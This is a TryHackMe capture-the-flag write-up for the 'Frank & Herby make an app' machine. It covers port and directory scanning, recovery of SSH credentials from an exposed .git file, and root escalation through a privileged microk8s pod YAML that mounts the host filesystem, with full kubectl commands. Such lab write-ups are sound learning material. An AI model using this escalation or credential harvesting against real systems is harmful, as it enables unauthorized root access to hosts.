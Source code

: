 # Frank & Herby make an app — TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Discover hidden files → recover SSH key for `frank` → abuse microk8s-related SUID/config → escalate to root.
---------------------------
## Target
- Machine: `[REDACTED_IP]`  
- Date: `2025-10-14`  
- Environment: TryHackMe / CTF
---------------------------
## Q1-What port has a webpage frank was able to stand up? 

I began with an nmap scan to discover open ports. The default scan revealed only SSH (port 22), so I performed a comprehensive full-port scan to identify all available services.

```bash
 └─$ nmap -sT -T4 -Pn -p- [REDACTED_IP]

22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
10250/tcp open  unknown
10255/tcp open  unknown
10257/tcp open  unknown
10259/tcp open  unknown
25000/tcp open  icl-twobase1
31337/tcp open  http     nginx 1.21.3
|_http-title: Heroic Features - Start Bootstrap Template
|_http-server-header: nginx/1.21.3
32000/tcp open  http     Docker Registry (API: 2.0)
```
the port `[REDACTED]`

-------------------------------------------------------
## Q2-What did frank leave exposed on the site? 

Directory discovery on port `[REDACTED]` :

```bash
└─$ gobuster dir -u http://REDACTED_IP:[REDACTED_PORT]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 40

/assets               (Status: 301) [Size: 169] 
/css                  (Status: 301) [Size: 169]
/vendor               (Status: 301) [Size: 169]

```
403 Forbidden
We cant access to any of this 

-------------

Hint: Frank isn't a normal dev, not the conventional type... so maybe a little variety will 	`git` you there.


I tried some known `.git` files.

We got `.git[REDACTED]` 

We can also use dirseach tool:
```bash
└─$ dirseach -u http://REDACTED_IP:REDACTED_PORT
```
--------------

`http://frank:f[REDACTED]@192.168.100.50`

Decoded by CyberChef :

`http://frank:f[REDACTED]192.168.100.50`

SSH Credentials 

----------------

## user.txt flag

Contact via SSH and get the user.txt :
```bash
└─$ ssh frank@[REDACTED_IP]                

frank@dev-01:~$ id
uid=1001(frank) gid=1001(frank) groups=1001(frank),998(microk8s)

frank@dev-01:~$ cat user.txt 
THM{[REDACTED]}
```
------------------

## root.txt flag

User frank is not in the sudoers file.

```bash
frank@dev-01:~$ sudo -l
[sudo] password for frank: 
Sorry, user frank may not run sudo on dev-01.
```
Frank in `998(microk8s)` group

------------------------

MicroK8s allowed any user with access to the host to deploy a pod to the underlying Kubernetes installation. This allowed an attacker with local access to provision a privileged container and gain root access to the underlying host.

-----------------------

First i tried to create new Pods but faced internet connectivity issues pulling images.
We can used existing local images instead of downloading new ones.

Found existing local images: `microk8s kubectl get node -o yaml`

Discovered: `localhost:32000/bsnginx@sha256:59dafb4b06387083e51e2589773263ae301fe4285cfa4eb85ec5a3e70323d6bd`

Created a privileged Pod using the local image:

```bash
frank@dev-01:~$ cat local-pod.yaml 

apiVersion: v1
kind: Pod
metadata:
  name: local-priv-pod
spec:
  containers:
  - name: priv-container
    image: localhost:32000/bsnginx:latest
    command: ["/bin/bash", "-c", "sleep 3600"]
    securityContext:
      privileged: true
      runAsUser: 0
    volumeMounts:
    - name: host-fs
      mountPath: /host
  volumes:
  - name: host-fs
    hostPath:
      path: /
      type: Directory
```

Executed the attack and get the flag:
```bash
frank@dev-01:~$ microk8s kubectl apply -f local-pod.yaml
pod/local-priv-pod created
frank@dev-01:~$ microk8s kubectl get pods 
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          3y352d
local-priv-pod                      1/1     Running   0          15s

frank@dev-01:~$ microk8s kubectl exec -it local-priv-pod -- /bin/bash

root@local-priv-pod:~# cat /host/root/root.txt
THM{[REDACTED]}
```
 
------------------------------------

Note: This writeup is for educational purposes. All sensitive values (IPs, keys, flags) are redacted.

